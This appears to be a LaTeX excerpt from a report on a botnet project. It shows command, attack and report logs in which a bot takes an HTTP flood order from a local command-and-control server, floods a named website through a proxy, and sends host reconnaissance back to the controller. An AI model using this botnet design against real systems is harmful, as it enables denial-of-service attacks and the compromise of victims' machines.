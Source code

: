 The following are commands-related events (recorded in \texttt{data/log/commands.log}):

\begin{verbatim}
  18:04:06.755 Received command ATTACK_HTTPFLOOD
               with params {attacks=[
               HttpFloodAttack(method=GET, target=http://www.gmarciani.com,
               proxy=null, header={},
               executions=1, period=null),
               HttpFloodAttack(method=GET, target=http://www.gmarciani.com,
               proxy=31.220.56.101:80, header={User-Agent=MyAwesomeBot},
               executions=3, period=10-15:SECONDS)]}
               from C&C at http://localhost:3000/command
  18:06:04.780 Received command REPORT
               with params {}
               from C&C at http://localhost:3000/command
  18:07:35.851 Received command KILL
               with params {}
               from C&C at http://localhost:3000/command
\end{verbatim}

The following are attacks-related events (recorded in \texttt{data/log/attacks.log}):

\begin{verbatim}
  18:04:06.784 Launching HTTP attack: GET http://www.gmarciani.com (1/1)
               behind proxy none
               with header {User-Agent=MyAwesomeBot}
  18:04:06.784 Launching HTTP attack: GET http://www.gmarciani.com (1/3)
               behind proxy 31.220.56.101:80
               with header {User-Agent=MyAwesomeBot}
  18:04:20.766 Launching HTTP attack: GET http://www.gmarciani.com (2/3)
               behind proxy 31.220.56.101:80
               with header {User-Agent=MyAwesomeBot}
  18:04:34.766 Launching HTTP attack: GET http://www.gmarciani.com (3/3)
               behind proxy 31.220.56.101:80
               with header {User-Agent=MyAwesomeBot}

\end{verbatim}

The following are reports-related events, recorded in \texttt{data/log/reports.log}):

\begin{verbatim}
  18:06:04.846 Report sent to C&C at http://localhost:3000/report
  {
    "config" : {
      "cnfInfo" : true,
      "tgtInfo" : true,
      "sysInfo" : true,
      "netInfo" : true,
      "polling" : "90-120:SECONDS",
      "reconnections" : 3,
      "reconnectionWait" : "2-5:SECONDS",
      "proxy" : "none",
      "authentication" : {
        "User-Agent": "MyAwesomeBot"
      },
      "sleep" : null,
      "controllers" : [ {
        "init" : "http://localhost:3000/init",
        "command" : "http://localhost:3000/command",
        "log" : "http://localhost:3000/report"
      } ]
    },
    "attacks-http" : [ ],
    "network-analysis" : "{MAC=20-68-9D-C3-76-EB, ip=127.0.1.1}",
    "system-analysis" : "{os=A cool OS, kernel=A cool kernel}"
  }
\end{verbatim}

Notice that the same report has been stored in \texttt{controller/data/report/report.\$\{botIP\}.json}.
